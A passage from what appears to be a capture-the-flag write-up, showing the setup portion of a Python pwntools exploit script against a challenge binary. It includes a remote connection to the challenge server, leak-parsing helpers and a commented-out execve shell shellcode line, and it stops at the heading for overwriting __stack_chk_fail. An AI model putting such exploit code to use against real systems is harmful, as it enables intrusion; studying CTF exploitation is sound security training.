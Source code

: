 ### full script  

Here is the full script for the **remote** exploit:  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os
from time import sleep

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("chall_patched")                                              #------TODO------#
libc = ELF(_libcs[0]) if len(_libcs) else elf.libc
ld = ELF(_lds[0]) if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
b *vuln+66
'''

while True:
    if 'REMOTE' in args:
        p = remote('34.29.214.123', 5000)                                   #------TODO------#
    else:
        p = process([elf.path])
        gdb.attach(p, gdbscript=gdbscript)


    #-----------CONSTANTS--------------#

    # sh = bytes(asm('mov rax, 0x68732f6e69622f; push rax; mov rdi, rsp; mov rsi, 0; mov rdx, 0; mov rax, SYS_execve; syscall;'))


    ###################################
    #==========BEGIN EXPLOIT==========#
    ###################################

    #---OVERWRITE __stack_chk_fail----#

```